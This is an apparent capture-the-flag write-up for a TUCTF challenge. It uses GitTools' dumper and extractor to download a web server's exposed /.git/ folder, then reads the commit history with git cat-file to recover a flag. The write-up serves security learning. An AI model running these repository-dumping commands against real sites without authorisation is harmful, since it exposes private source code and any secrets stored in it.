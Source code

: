 # Writeup

### Challenge available at ```http://gitgud.tuctf.com```

# Tool
Use this tool to dig for ```/.git/``` folder [GitTools](https://github.com/internetwache/GitTools)

# Solve
Use tool I recommended above to download `/.git/` folder by command
```./GitTools/Dumper/gitdumper.sh http://gitgud.tuctf.com/.git/ GitGud```

Then we extract it 
```./GitTools/Extractor/extractor.sh GitGud GitGudExtracted```

After that we cat the file `GitGud/.git/logs/refs/heads/master` and you will see 
```
2c6190537a2655121ccb9647765fa99687afec25 22f63ceab55efe05c5448676a3470b13b6545f74 Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000        commit: Added flag
```
Using `git cat-file` command

Then do the following
```
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 2c6190537a2655121ccb9647765fa99687afec25
tree b0f30828b576f99e0f7b906b751a32969182913f
parent cfb7e1cbb11d866d4084920fde50077d26bb0953
author Jimmy <jimmy@jimmyrocks.site> 1511297071 +0000
committer Jimmy <jimmy@jimmyrocks.site> 1511297071 +0000

Updated blog

quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 22f63ceab55efe05c5448676a3470b13b6545f74
tree 61315dcca584181b2580b1cdf6e5d36f0323a752
parent 2c6190537a2655121ccb9647765fa99687afec25
author Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000
committer Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000

Added flag <--- right here

quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 61315dcca584181b2580b1cdf6e5d36f0323a752
100644 blob 353589fc6a0a098f208cd7b2a391ecc4b65d8b56    README.md
100644 blob 2a31291a3ab4f8f05e9a421617abaa524da0b89f    about.html
100644 blob b8665ba15c1c9c511dba4c89d82d2fe521d42b28    blog.html
100644 blob 25121cd6f15776125c846b78e6e3caef9f4717df    contact.html
100644 blob a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9    flag
100644 blob 1a348966ee0bee969c0ab166510ef08535ff13d4    gitgud.gif
100644 blob d833bbffb80d9a1d58acf76854a8d2c905926dff    index.html
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9

TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
```

# Flag 
TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
